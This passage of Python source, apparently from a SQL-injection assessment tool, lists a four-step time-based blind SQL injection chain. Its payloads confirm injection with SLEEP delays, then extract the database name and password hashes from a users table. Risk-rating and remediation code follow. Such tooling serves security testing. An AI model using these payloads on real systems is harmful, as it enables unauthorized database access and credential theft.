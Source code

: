 ```python
                {
                    'step': 1,
                    'description': 'Confirm time-based injection',
                    'payload': f"{parameter}=' OR IF(1=1,SLEEP(5),0)--",
                    'expected_result': '5-second response delay confirming injection'
                },
                {
                    'step': 2,
                    'description': 'Extract database name length',
                    'payload': f"{parameter}=' OR IF(LENGTH(database())>5,SLEEP(5),0)--",
                    'expected_result': 'Conditional delay revealing database name length'
                },
                {
                    'step': 3,
                    'description': 'Extract database name character by character',
                    'payload': f"{parameter}=' OR IF(ASCII(SUBSTRING(database(),1,1))=116,SLEEP(5),0)--",
                    'expected_result': 'Character-by-character database name extraction'
                },
                {
                    'step': 4,
                    'description': 'Extract sensitive data systematically',
                    'payload': f"{parameter}=' OR IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))>64,SLEEP(5),0)--",
                    'expected_result': 'Systematic password hash extraction'
                }
            ],
            'impact': 'Complete database data extraction despite blind injection',
            'mitigation': 'Implement parameterized queries and timeout controls'
        }

    def _calculate_risk_rating(self, vulnerabilities: List[Dict[str, Any]]) -> str:
        """
        Calculate overall risk rating based on identified vulnerabilities
        """
        if not vulnerabilities:
            return 'LOW'

        high_risk_count = sum(1 for v in vulnerabilities if v.get('severity') == 'HIGH')
        medium_risk_count = sum(1 for v in vulnerabilities if v.get('severity') == 'MEDIUM')

        if high_risk_count > 0:
            return 'CRITICAL'
        elif medium_risk_count > 2:
            return 'HIGH'
        elif medium_risk_count > 0:
            return 'MEDIUM'
        else:
            return 'LOW'

    def _generate_remediation_plan(self, vulnerabilities: List[Dict[str, Any]]) -> List[Dict[str, Any]]:
        """
        Generate comprehensive remediation recommendations
        """
        recommendations = [
            {
                'priority': 'CRITICAL',
                'recommendation': 'Implement Parameterized Queries',
                'description': 'Replace all dynamic SQL construction with parameterized queries or prepared statements',
                'implementation': [
                    'Use ORM frameworks with built-in parameterization',
```